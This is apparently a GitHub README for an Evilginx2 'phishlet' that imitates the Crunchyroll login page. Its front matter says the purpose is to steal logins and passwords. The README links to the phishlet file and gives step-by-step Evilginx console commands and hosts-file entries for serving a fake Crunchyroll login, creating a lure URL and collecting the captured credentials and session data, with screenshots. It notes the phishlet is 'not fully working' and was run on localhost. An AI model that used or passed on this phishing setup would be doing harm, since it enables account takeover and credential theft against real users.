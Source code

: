 ```yaml
---
title: "Evilginx2 Phishlet for Crunchyroll"
excerpt: "Learn how to create a fake Crunchyroll page to steal logins and passwords using Evilginx2."
categories:
  - Evilginx2
tags:
  - Evilginx2
  - Phising
  - Crunchyroll
  - Crunchyroll phising
  - Steal login and password

toc: true
---
```


crunchyroll phishlet for evilginx2.

Download the phishlet here [crunchyroll.yaml](https://github.com/BieAnimaton/evilginx2-crunchyroll/blob/main/crunchyroll.yaml).

# evilginx2-crunchyroll

crunchyroll phishlet for evilginx2.  
capture the login or register credentials.  
it's not fully working.  

using localhost.

## steps
download or clone this file and extract inside phishlet folder.  
start evilginx.  

`config domain crunchyroll.com`  
`config ipv4 127.0.0.1`

`phishlets hostname crunchyroll login.crunchyroll.com`  
`phishlets enable crunchyroll`  
`phishlets get-hosts crunchyroll`

	127.0.0.1 www.login.crunchyroll.com
	127.0.0.1 sso.login.crunchyroll.com
	127.0.0.1 static.login.crunchyroll.com
	
	# add to C:/Windows/System32/Driver/etc/hosts or /etc/hosts

`lures`  
`lures create crunchyroll -> check generated ID`  
`lures get-url ID`  

	https://sso.login.crunchyroll.com/innRipMA

go to your browser
clear all history
access the generated link
after login or registration get credentials

`sessions`  

## captures

![1](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/b7108ade-658c-4a0e-a017-aebca968f8cc)

![2](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/df2177dd-38e2-4db0-8855-197e3a44f498)

![3](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/4e4027fa-e65b-4555-8734-e5e9db1abe27)

credentials will appear in the console

![4](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/ddb43bac-1e5a-43fd-8a89-9c7524515a34)

sessions information

![5](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/82d44097-9113-4a36-a920-4ff474b43ad2)